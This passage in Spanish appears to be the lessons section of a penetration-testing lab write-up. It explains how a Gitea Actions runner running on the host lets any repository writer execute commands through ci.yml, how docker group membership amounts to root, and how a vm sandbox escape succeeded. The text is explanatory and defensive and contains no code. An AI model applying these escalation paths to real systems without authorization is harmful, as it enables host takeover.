6. **Los pipelines de CI/CD son un vector de ataque crítico**  
   El runner de Gitea Actions se ejecutaba como el usuario `echoes` en la máquina del host (no en un contenedor aislado). Cualquier usuario con permisos de escritura en el repositorio puede modificar el `ci.yml` y ejecutar comandos arbitrarios en el host.

7. **Los runners de CI/CD deben aislarse adecuadamente**  
   El runner de Gitea Actions debería ejecutarse en un contenedor aislado o en una máquina separada, no en el host de producción. Además, debería tener acceso restringido a los secretos y a la red interna.

8. **El grupo `docker` es equivalente a `root`**  
   Cualquier usuario en el grupo `docker` puede lanzar contenedores con el sistema de archivos del host montado y acceder a él como `root`. La pertenencia al grupo `docker` debe tratarse con el mismo nivel de privilegio que `root`.

9. **El aislamiento de contenedores no es suficiente si el host está comprometido**  
   Aunque el sandbox estaba aislado con `cap_drop: ALL`, `no-new-privileges`, `tmpfs noexec`, etc., el escape del sandbox `vm` permitió ejecutar comandos como el usuario `sandbox`. Esto demuestra que el aislamiento de contenedores debe complementarse con un aislamiento a nivel de aplicación (sandbox de ejecución) correctamente implementado.
